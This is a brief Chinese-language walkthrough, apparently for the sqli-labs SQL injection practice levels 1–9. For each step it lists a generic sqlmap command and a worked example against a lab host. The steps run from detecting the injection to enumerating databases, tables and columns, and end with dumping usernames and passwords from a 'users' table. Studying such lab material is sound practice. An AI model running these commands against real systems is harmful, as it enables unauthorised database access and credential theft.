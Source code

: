 ### Less 1-9

对url进行检测，判断是否存在SQL注入

```shell
sqlmap.py -u url --batch

sqlmap.py -u http://193.168.10.26/Less-1/?id=2 --batch
```



获取数据库
获取全部数据库

```shell
sqlmap.py -u url --dbs --batch

sqlmap.py -u http://193.168.10.26/Less-1/?id=2 --dbs --batch
```



获取当前数据库

```shell
sqlmap.py -u url --current-db --batch

sqlmap.py -u http://193.168.10.26/Less-1/?id=2 --current-db --batch
```



获取数据库中的表

```shell
sqlmap.py -u url -D DB --tables --batch

sqlmap.py -u http://193.168.10.26/Less-1/?id=2 -D security --tables --batch
```



获取表中的列

```shell
sqlmap.py -u url -D DB -T TBL --columns --batch

sqlmap.py -u http://193.168.10.26/Less-1/?id=2 -D security -T users --columns --batch
```



获取列中的数据

```shell
sqlmap.py -u url -D DB -T TBL -C COL --dump --batch

sqlmap.py -u http://193.168.10.26/Less-1/?id=2 -D security -T users -C "id,username,password" --dump --batch
```



### Less10

这个暂时没有成功